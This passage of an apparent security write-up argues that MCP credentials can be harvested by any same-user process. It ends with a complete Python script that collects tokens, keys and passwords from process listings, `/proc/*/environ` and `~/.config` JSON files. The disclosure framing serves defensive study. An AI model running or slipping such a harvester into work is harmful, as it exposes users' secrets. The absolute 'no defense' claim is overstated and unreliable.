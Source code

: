 ❌ **"We use application whitelisting"**
- `ps`, `cat`, `/proc` access are all legitimate
- Can be done from any approved scripting language

❌ **"We have DLP"**
- DLP watches data leaving, not being collected
- By then it's too late

❌ **"We audit everything"**
- Audit logs show: "User alice read alice's processes"
- Nothing suspicious to flag

### The Ugly Truth

**There is no defense against same-user credential harvesting in MCP's current architecture.**

The only solution is to not use MCP with production credentials.

## Demonstration Code

### Complete Harvester in 20 Lines

```python
#!/usr/bin/env python3
import os
import subprocess
import json
import glob

# Harvest everything
creds = []

# Process arguments
ps_output = subprocess.check_output(['ps', 'aux']).decode()
creds.extend([line for line in ps_output.split('\n') if 'mcp' in line])

# Environment variables
for env_file in glob.glob('/proc/*/environ'):
    try:
        with open(env_file, 'rb') as f:
            creds.extend([line for line in f.read().decode('utf-8', errors='ignore').split('\0') 
                         if any(key in line for key in ['TOKEN', 'KEY', 'PASS', 'SECRET'])])
    except:
        pass

# Config files
for config in glob.glob(os.path.expanduser('~/.config/**/config.json'), recursive=True):
    try:
        with open(config) as f:
            data = f.read()
            if any(key in data.lower() for key in ['token', 'password', 'key', 'secret']):
                creds.append(f"Config: {config}\n{data}")
    except:
        pass

# Output
print(f"[+] Harvested {len(creds)} credentials without privilege escalation")
for cred in creds[:10]:  # First 10
    print(f"  - {cred[:100]}...")
```
